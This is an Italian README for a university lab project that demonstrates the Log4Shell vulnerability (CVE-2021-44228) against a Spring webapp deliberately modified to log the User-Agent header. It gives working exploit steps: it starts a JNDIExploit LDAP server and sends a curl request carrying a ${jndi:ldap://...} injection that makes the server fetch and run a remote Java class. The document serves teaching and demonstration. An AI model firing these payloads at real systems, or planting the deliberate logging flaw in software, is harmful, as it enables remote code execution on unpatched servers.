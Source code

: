# Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tipo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp realizzata con il popolare web framework Java MVC, opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "src\main\java\com\nico\store\store\controller\HomeController.java".
Nel controller è stata istanziata la classe Logger, ed è stata aggiunta (mediante annotazione) l'istruzione per ricavare l'header della richiesta "User-Agent" e passarla al controller. All'interno del controller, si è usata l'istanza del Logger per loggare la User-Agent. Ne consegue quindi, che se un client invia una  richiesta al server con l'header opportunamente modificato (nel nostro caso la user-agent, ma avrei potuto sceglierne un altro volendo), contenente un'istruzione per il download di una classe Java da un server JNDI, verrà eseguito il codice contenuto nella classe.

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j invocato nel controller, interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server JNDI (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```
Per codificare in base64 il payload ci si può servire del tool disponibile qui: https://gchq.github.io/CyberChef/

Ovviamente il server della WebApp deve essere avviato prima di inviare la richiesta curl.

## Avvio web-app

Se si desidera utilizzare il container docker (consigliato), si deve prima di tutto clonare questo repo con:
```bash
git clone https://github.com/andree93/sicurezza-spring-webapp-log4j.git
```

Posizionarsi nella directory principale della webApp e creare l'immagine docker con il Dockerfile presente su questo repo:
```bash
docker build .
```
Avviare il container:

```bash
docker run --name nomeApplicazione -p 8080:8080 --network nomeRete
```
Dopo aver inviato la request al server della webApp, come descritto sopra (ad esempio con curl), sarà possibile notare dai log del server JNDI che è stata "servita" la classe Java al server della nostra WebApp, con il payload al suo interno.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```

Ovviamente è possibile sfruttare la vulnerabilità eseguendo la webApp senza docker, ma è necessario che la JDK (o JRE) abbia abilitata l'opzione che consente di eseguire classi scaricate da un server remoto JNDI.
L'immagine docker, ad esempio, è stata creata a partire dalla JDK-8u181, che ha l'opzione abilitata di default.

```bash
com.sun.jndi.ldap.object.trustURLCodebase=true
```

Tuttavia, avere una versione più recente della JDK/JRE non è sufficiente per mettersi completamente al riparo dalla vulnerabilità.


```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server JNDI è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
